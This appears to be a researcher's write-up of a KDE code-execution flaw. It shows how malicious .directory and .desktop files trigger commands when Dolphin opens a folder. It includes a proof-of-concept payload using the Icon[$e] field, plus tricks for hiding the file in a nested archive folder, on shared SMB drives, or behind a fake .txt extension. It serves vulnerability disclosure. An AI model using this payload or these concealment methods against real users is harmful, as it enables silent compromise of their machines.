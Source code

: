 Once a share has been mounted using SMB4k, it can be accessed in Dolphin.

If we have write access to a public SMB share, (that people are browsing via smb4k) we can plant a malicious config file that would appear as the following when viewed in Dolphin, ultimately achieving code execution remotely.

![]({{site.baseurl}}/assets/smb4k.png)

### ZIP method (nested config)

Sending someone a .directory or .desktop file would obviously raise a lot of questions, right? I'd imagine so. That's what most of the commentary around this subject seems to suggest. Why doesn't that matter? Because nesting these files and forging their file extensions is the easiest thing you could possibly imagine.

We have options here. The first option is to create a nested directory, which will have its Icon loaded as soon as the parent directory is opened. This executes the code without even seeing or knowing the contents of the directory. For example, look at this httpd download from the Apache website.

![]({{site.baseurl}}/assets/easyhiding.png)

There's no way that an unsuspecting user would be able to identify that there's a malicious .directory file nested in one of those directories. If you're expecting it, sure, but generally speaking, no suspicion would arise.

#### nested directory payload
```
$ mkdir httpd-2.4.39
$ cd httpd-2.4.39
$ mkdir test; cd test
$ vi .directory

[Desktop Entry]
Type=Directory
Icon[$e]=$(echo${IFS}0>~/Desktop/zer0.lol&)
```

ZIP the archive & send it off.

The moment the httpd-2.4.39 folder is opened in the file manager, the test directory will attempt to load the Icon, resulting in command execution.


### ZIP method (lone config file)

The second option we have, is to "fake" our file extensions. I actually forgot to document this method in the original proof-of-concept, but that's why I'm including it here now. As it turns out, when KDE doesn't recognize a file extension, it attempts to be "smart", and assign a mimetype. If the file contains ```[Desktop Entry]``` at the beginning, it's assigned the application/x-desktop mimetype. Ultimately allowing the file to be processed by KConfig on load.

Knowing this, we can make a fake TXT file with a character that closely resembles a "t". To demonstrate how easy hiding the file is, I've used the httpd package again.

![]({{site.baseurl}}/assets/easierhiding.png)
